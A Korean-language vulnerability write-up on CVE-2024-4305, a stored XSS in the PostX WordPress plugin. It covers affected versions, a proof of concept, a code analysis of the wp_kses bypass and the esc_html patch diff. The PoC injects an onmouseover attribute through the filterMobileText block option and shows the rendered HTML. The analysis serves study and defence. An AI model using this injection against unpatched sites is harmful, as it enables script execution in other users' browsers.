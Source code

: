```yaml
---
title: "[CVE-2024-4305] 취약점 분석 보고서"
description: "PostX Stored XSS 취약점"
author: bde574786
date: 2024-12-03 00:09:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, WordPress, CVE, XSS, CVE=2024-4305]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```



## **1. Description**

페이지나 게시물에 블록이 삽입될 때, 해당 블록 옵션 중 일부를 출력하기 전에 검증과 이스케이프 처리를 하지 않아 Contributor 이상의 권한을 가진 사용자가 Stored XSS 공격을 수행할 수 있다.

또한, 검증과 이스케이프 처리가 누락된 블록 옵션은 JSON 데이터로 저장되고 HTML로 렌더링되는 과정에서 악의적인 스크립트가 실행될 수 있다.

- CVSS: 5.9(Medium)
- CWE: CWE-79(XSS)

## **2. Environment Setting**

### **2.1 Affected Version**

- Post Grid Gutenberg Blocks and WordPress Blog Plugin – PostX < 4.1.0 - Contributor+

## **3. PoC**

**⚠️** Contributor 이상의 사용자만 게시물을 작성하고, 해당 게시물에 블록을 삽입하여 블록 옵션을 수정할 수 있기 때문에 Contributor 이상의 권한을 가진 계정으로 진행해야 한다.

편집기를 코드 편집기로 변경하고 블록 옵션(filterMobileText)에 악성 스크립트를 포함시켜 임시 저장한다. 

<!-- wp:ultimate-post/post-grid-3 -->
```json
{
    "blockId": "d57ca5",
    "currentPostId": "2198",
    "filterShow": true,
    "paginationShow": true,
    "readMore": true,
    "contentTag": "section",
    "openInTab": true,
    "headingText": "123",
    "headingURL": "123",
    "headingTag": "h5",
    "titleTag": "h6",
    "metaMinText": "123",
    "metaAuthorPrefix": "123",
    "fallbackImg": {
        "url": "123",
        "id": 99999
    },
    "readMoreText": "123",
    "filterText": "ClickMe!",
    "filterMobileText": "\"onmouseover='alert(/XSS/)'\"",
    "loadMoreText": "123"
}
```

![image.png](assets/posts/one-day/2024-12-03/img-001.png)

JSON 데이터를 통해 입력된 사용자 입력값이 DOM 요소에 동적으로 삽입되고 HTML 속성으로 렌더링 된다. 따라서,  `ClickMe!` 텍스트 위로 커서가 이동되면 `onmouseover` 이벤트가 발생한다.

```html
<ul class="ultp-flex-menu" data-name="" onmouseover="alert(/XSS/)">
    <li class="filter-item">
        <a class="filter-active" data-taxonomy="" href="#">ClickMe!</a>
    </li>
</ul>
```

![image.png](assets/posts/one-day/2024-12-03/img-002.png)

## **4. Analysis**

`wp_kses` 함수는 두 번째 인자로 `$allowd_html`를 사용해 허용할 태그와 속성을 정의한다. 

```php
wp_kses( string $content, array[]|string $allowed_html, string[] $allowed_protocols = array() ): string
```

PoC에서 공격 벡터로 사용되었던 `filterMobileText`에는 `wp_kses` 함수를 사용해서 xss 공격을 방지하고 있다.

```php
// ultimate-post/blocks/template/filter.php

$attr["filterText"] = wp_kses($attr["filterText"], $allowed_html_tags);
$attr["filterMobileText"] = wp_kses($attr["filterMobileText"], $allowed_html_tags);
```

허용된 태그에서도 최소한의 속성만을 허용하고 있다는 것을 알 수 있다.

```php
// ultimate-post/classes/Functions.php
  
/**
 * Custom Text kses
 * @param $params
 * @return array|bool|mixed|string
 * @since v.4.0.2
*/
public function ultp_allowed_html_tags($extras=[]) {
    $allowed =  array(
        'a'          => array(
            'href'  => true,
            'title' => true,
        ),
        'abbr'       => array(
            'title' => true,
        ),
        'b'          => array(),
        'br'          => array(),
        'blockquote' => array(
            'cite' => true,
        ),
        'em'         => array(),
        'i'          => array(),
        'q'          => array(
            'cite' => true,
        ),
        'strong'     => array(),
    );

    return array_merge($allowed, $extras);
}
```

언뜻 보기에는 문제가 없지만 `wp_kses` 함수는 HTML 태그와 속성만 필터링하기 때문에 취약점이 발생한다.  코드 편집기 모드로 전환하면 JSON 형식으로 블록 데이터를 직접 편집할 수 있으므로 위의 검증과 이스케이프 과정을 모두 우회할 수 있다.

## **5. Patch Diff**

4.1.0 버전에서는 `esc_html` 를 사용하여 모든 특수문자를 이스케이프 처리하였다.

```php
// ultimate-post/blocks/template/filter.php

$attr["filterText"] = isset($attr['filterText']) && $attr['filterText'] ? wp_kses($attr["filterText"], $allowed_html_tags) : '';
$attr['filterMobileText'] = isset($attr['filterMobileText']) && $attr['filterMobileText'] ? esc_html($attr['filterMobileText']) : '';
```

## **6. Discussion**

플러그인 코드에서는 `wp_kses` 함수로 필터링하고 있기 때문에, 겉보기에는 안전한 데이터 처리가 이루어진 것처럼 보인다. 그러나, 데이터가 JSON 입력에서 시작해 HTML로 렌더링되는 과정을 놓치면, 검증 및 이스케이프로 누락으로 인한 취약점을 간과할 수 있다.

UI 입력뿐만 아니라 코드 편집기 모드와 같은 사용자 입력 경로에 실제로 악성 데이터를 삽입하여 테스트 해보는 것이 중요할 듯 하다.